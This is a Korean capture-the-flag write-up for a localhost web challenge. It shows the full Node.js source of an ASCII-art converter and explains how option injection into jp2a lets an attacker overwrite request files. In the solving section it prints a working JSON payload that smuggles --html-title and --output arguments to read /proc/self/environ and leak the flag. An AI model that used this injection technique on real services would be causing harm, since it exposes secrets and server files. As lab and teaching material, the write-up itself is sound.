

# ASCII Art as a Service




# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | ASCII Art as a Service |
| 주차 | 9주차 |
| 분야 | Web · Argument Injection / SSRF |
| 접속 주소 | `http://localhost:9000` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약

- url로 이미지를 받아서 `jp2a` 라이브러리를 통해 아스키아트를 만드는 웹
- ssrf를 통해 내부 접근
- `jp2a` 에 url에 option 추가 output 를 통해  데이터 파일 덮어쓰기를 통해 접근

---

# 2. 문제 분석

- 전체코드
    
    ```bash
    #!/usr/bin/env node
    
    const express = require('express');
    const childProcess = require('child_process');
    const expressSession = require('express-session');
    const fs = require('fs');
    const crypto = require('crypto');
    
    const app = express();
    const flag = process.env.FLAG || process.exit();
    
    const genRequestToken = () =>
      Array(32)
        .fill()
        .map(() => "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".charAt(Math.random() * 62))
        .join("");
    
    app.use(express.static("./static"));
    app.use(expressSession({
      secret: crypto.randomBytes(32).toString("base64"),
      resave: false,
      saveUninitialized: true,
      cookie: { secure: false, sameSite: 'Lax' }
    }));
    app.use(express.json());
    
    app.post('/request', (req, res) => {
      const url = req.body.url;
      const reqToken = genRequestToken();
      const reqFileName = `./request/${reqToken}`;
      const outputFileName = `./output/${genRequestToken()}`;
    
      fs.writeFileSync(reqFileName, [reqToken, req.session.id, "Processing..."].join('|'));
    
      setTimeout(() => {
        try {
          const output = childProcess.execFileSync("timeout", ["2", "jp2a", ...url]);
          fs.writeFileSync(outputFileName, output.toString());
          fs.writeFileSync(reqFileName, [reqToken, req.session.id, outputFileName].join('|'));
        } catch (e) {
          fs.writeFileSync(reqFileName, [reqToken, req.session.id, "Something bad happened!"].join('|'));
        }
      }, 2000);
    
      res.redirect(`/request/${reqToken}`);
    });
    
    app.get('/request/:reqtoken', (req, res) => {
      const reqToken = req.params.reqtoken;
      const reqFilename = `./request/${reqToken}`;
      
      if (!/^[a-zA-Z0-9]{32}$/.test(reqToken) || !fs.existsSync(reqFilename)) {
        return res.json({ failed: true, result: "bad request token." });
      }
    
      const [origReqToken, ownerSessid, result] = fs.readFileSync(reqFilename).toString().split('|');
    
      if (req.session.id !== ownerSessid) {
        return res.json({ failed: true, result: "Permissions..." });
      }
    
      if (result[0] !== '.') {
        return res.json({ failed: true, result: result });
      }
    
      try {
        const content = fs.readFileSync(result).toString();
        res.json({ failed: false, result: content });
      } catch (e) {
        return res.json({ failed: false, result: "Something bad happened!" });
      }
      res.end();
    });
    
    app.get('/flag', (req, res) => {
      if (req.ip === '127.0.0.1' || req.ip === '::ffff:127.0.0.1') {
        res.json({ failed: false, result: flag });
      } else {
        res.json({ failed: true, result: "Flag is not yours..." });
      }
    });
    
    function clearOutput() {
      try {
        childProcess.execSync("rm ./output/* ./request/* 2> /dev/null");
      } catch (e) {}
      setTimeout(clearOutput, 120e3);
    }
    
    clearOutput();
    app.listen(9000);
    
    ```
    

```bash
express - app.post('/request', (req, res) ) 아스키 아트 요청
				- app.get('/request/:reqtoken', (req, res)) 확인
				- app.get('/flag', (req, res)) flag <- 내부 서비스 
```

`jp2a` : 이미지를 ASCII 아트로 변환하는 프로그램

https://m.blog.naver.com/navjhj88/221617529047

https://manned.org/jp2a

Argument Injection

```jsx
setTimeout(() => {
    try {
      const output = childProcess.execFileSync("timeout", ["2", "jp2a", ...url]);
      fs.writeFileSync(outputFileName, output.toString());
      fs.writeFileSync(reqFileName, [reqToken, req.session.id, outputFileName].join('|'));
    } catch (e) {
      fs.writeFileSync(reqFileName, [reqToken, req.session.id, "Something bad happened!"].join('|'));
    }
  }, 2000);

```

- `-output` → 요청 메타데이터 파일 덮어쓰기
- `--html`은 결과를 HTML 형식으로 만들라는 옵션
- `--html-title=...`은 그 HTML의 `<title>` 내용을 지정

---

# 3. 풀이과정

```bash
  if (req.session.id !== ownerSessid) {
    return res.json({ failed: true, result: "Permissions..." });
  }

  if (result[0] !== '.') {
    return res.json({ failed: true, result: result });
  }

  try {
    const content = fs.readFileSync(result).toString();
    res.json({ failed: false, result: content });
  } catch (e) {
```

fs.writeFileSync(reqFileName, [reqToken, [req.session.id](http://req.session.id/), outputFileName].join('|')); 형식에 맞춰서 

```bash

{"url":["https://upload.wikimedia.org/wikipedia/commons/3/3f/JPEG_example_flower.jpg","--html","--html-title=x|rVMBLmD_fs11DzvS2Wn1RWf9nRvEOhaV|../../proc/self/environ|","--output=./request/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"]}
```


---

# 4. 보안조치

- SSRF 대비를 위해 `jp2a` 분리
- Argument 수 제한, 화이트 리스트 기반 방지

---